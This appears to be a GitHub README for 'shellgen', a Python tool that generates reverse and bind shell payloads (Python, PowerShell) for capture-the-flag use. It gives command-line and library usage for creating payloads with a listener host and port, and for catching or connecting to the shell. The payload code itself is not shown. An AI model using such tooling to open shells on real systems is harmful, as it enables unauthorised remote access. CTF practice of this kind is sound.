



# shellgen
Shell Generator for CTF's

## Terminal Usage

**Listing Shells**

Listing the available shells in the module.

```bash
$ python3 shellgen.py --list-shells
```




**Creating Payload**

Create a Reverse Python payload and set the **lhost** and **lport** values.

```bash
$ python3 shellgen.py -s reverse_python --lhost 10.10.10.10 --lport 9001
```





**Listening address**

After creating a payload, the module will help you to listen on the specified address and port, and catch the incoming shell.

```bash
$ python3 shellgen.py -s reverse_python --lhost 10.10.10.10 --lport 9001 --listen
```





## Python Usage

Basic usage of the module

```python
import shellgen

# Create a new shellgen object
shell = shellgen()

# Set up connection data
shell.set_lhost('10.10.10.10')
shell.set_lport(9001)

# Generate Shell String
shell_string = shell.generate_shell('reverse_python')

```


Pass arguments to the **generate_shell()** function as kwargs.

```python
import shellgen

# Create a new shellgen object
shell = shellgen()

# Generate Shell String and specify values as kwargs
shell_string = shell.generate_shell('bind_powershell',rhost='192.168.56.56',rport='8080')

# Connect to the remore address
shell.connect()
```


After generated a reverse payload, the module can listen on the specified port and interface address.

```python
import shellgen

# Create a new shellgen object
shell = shellgen()

# Generate Shell String and specify values as kwargs
shell_string = shell.generate_shell('reverse_python',lhost='10.10.10.10',lport='4444')

# Listening on the specified port nad address
shell.listen()
```

